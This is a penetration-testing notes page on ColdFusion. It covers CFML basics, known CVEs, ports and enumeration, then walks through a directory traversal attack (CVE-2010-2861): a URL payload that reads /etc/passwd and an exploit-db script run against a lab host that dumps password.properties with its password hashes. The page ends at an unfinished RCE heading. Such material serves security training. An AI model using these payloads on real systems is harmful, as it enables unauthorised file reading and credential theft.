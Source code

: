 # ColdFusion

Coldfusion is a Java-based Programming Language and Web App development platform used to build dyanmic and interactive web applications that can be integrated with various API's and databases.

CMFL 9ColdFusion Markup Language) is the proprietary language used by Coldfusion with a similar syntax to HTML. It uses tags and functions within the CMFL reducing the amount of code needing to be written. For example cfquery can execute SQL satements:

```html
<cfquery name="myQuery" datasource="myDataSource">
  SELECT *
  FROM myTable
</cfquery>
```

cfloop can loop through data that was retrieved via cfquery:

```html
<cfloop query="myQuery">
  <p>#myQuery.firstName# #myQuery.lastName#</p>
</cfloop>
```

cfloop supports other programming languages i.e java and javascript as well.

Colfusion has had a number of CVE's:

1. CVE-2021-21087: Arbitrary disallow of uploading JSP source code
2. CVE-2020-24453: Active Directory integration misconfiguration
3. CVE-2020-24450: Command injection vulnerability
4. CVE-2020-24449: Arbitrary file reading vulnerability
5. CVE-2019-15909: Cross-Site Scripting (XSS) Vulnerability

#### ColdFusion Ports:

| Port Number | Protocol       | Description                                                                                                                                                            |
| ----------- | -------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 80          | HTTP           | Used for non-secure HTTP communication between the web server and web browser.                                                                                         |
| 443         | HTTPS          | Used for secure HTTP communication between the web server and web browser. Encrypts the communication between the web server and web browser.                          |
| 1935        | RPC            | Used for client-server communication. Remote Procedure Call (RPC) protocol allows a program to request information from another program on a different network device. |
| 25          | SMTP           | Simple Mail Transfer Protocol (SMTP) is used for sending email messages.                                                                                               |
| 8500        | SSL            | Used for server communication via Secure Socket Layer (SSL).                                                                                                           |
| 5500        | Server Monitor | Used for remote administration of the ColdFusion server.                                                                                                               |

### Enumeration

Port Scanning - Typically uses default HTTP ports, nmap may be able to identify coldfusion services.

File Extensions - Typically uses .cfm or .cfc file extensions, pages with these extensions indicate a coldfusion environment&#x20;

HTTP headers - "Server: ColdFusion" or "X-Powered-By: ColdFusion"

Error Messages - May contain references to coldfusion specific tags or functions&#x20;

Default Files - such as "admin.cfm" or "CFIDE/administrator/index.cfm"

### Attacking Coldfusion

#### Known vulnerabilities&#x20;

Always check for known vulnerabilties.

```shell-session
searchsploit adobe coldfusion
```

#### Directory Traversal

`CVE-2010-2861` is the `Adobe ColdFusion - Directory Traversal` exploit discovered by `searchsploit`. It is a vulnerability in ColdFusion that allows attackers to conduct path traversal attacks.

* `CFIDE/administrator/settings/mappings.cfm`
* `logging/settings.cfm`
* `datasources/index.cfm`
* `j2eepackaging/editarchive.cfm`
* `CFIDE/administrator/enter.cfm`

These ColdFusion files are vulnerable to a directory traversal attack in `Adobe ColdFusion 9.0.1` and `earlier versions`. Remote attackers can exploit this vulnerability to read arbitrary files by manipulating the `locale parameter` in these specific ColdFusion files.

example payload:

```
http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=../../../../../etc/passwd

```

Exploitation:

<pre><code>searchsploit -p 14641
cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .
python2 14641.py
<strong>    usage: 14641.py &#x3C;host> &#x3C;port> &#x3C;file_path>
</strong>    example: 14641.py localhost 80 ../../../../../../../lib/password.properties
    if successful, the file will be printed
    
python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"

------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6&#x26; \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
...
</code></pre>

password.properties: configuration file in ColdFusion that stores encypted passwords for services and resources that coldfusion uses. These can be used for database connections, mail servers, ldap, etc. The file is usually in the `[cf_root]/lib` directory and can be managed through the ColdFusion Administrator.

{% embed url="https://www.rapid7.com/db/modules/auxiliary/gather/coldfusion_pwd_props/" %}

#### Un-Authenticated RCE&#x20;
